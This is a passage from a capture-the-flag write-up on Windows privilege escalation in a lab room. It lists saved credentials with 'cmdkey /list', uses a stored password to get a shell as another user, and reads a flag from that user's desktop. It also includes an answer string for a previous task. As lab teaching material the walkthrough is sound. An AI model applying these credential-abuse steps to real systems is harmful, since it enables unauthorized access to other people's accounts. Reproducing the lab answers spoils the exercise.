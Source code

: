 Answer : 098n0x35skjD3

### There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

First we need to list the saved credentials :

```console
C:\Users\thm-unpriv>cmdkey /list

Currently stored credentials:

   Target: Domain:interactive=WPRIVESC1\mike.katz
   Type: Domain Password
   User: WPRIVESC1\mike.katz
```
{: .nolineno }

Then we can use the saved credential tu do spawn a shell with Mike's context :

![Listed creds](/images/thm/windowsprivesc20/windowsprivesc20_4.png)
_Listed creds_

Finally, we can cd to the desktop to view the flag file :

```console
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\mike.katz

C:\Windows\system32>cd /Users/mike.katz/Desktop

C:\Users\mike.katz\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\mike.katz\Desktop

05/04/2022  05:17 AM    <DIR>          .
05/04/2022  05:17 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
05/04/2022  05:17 AM                24 flag.txt
               3 File(s)          1,105 bytes
```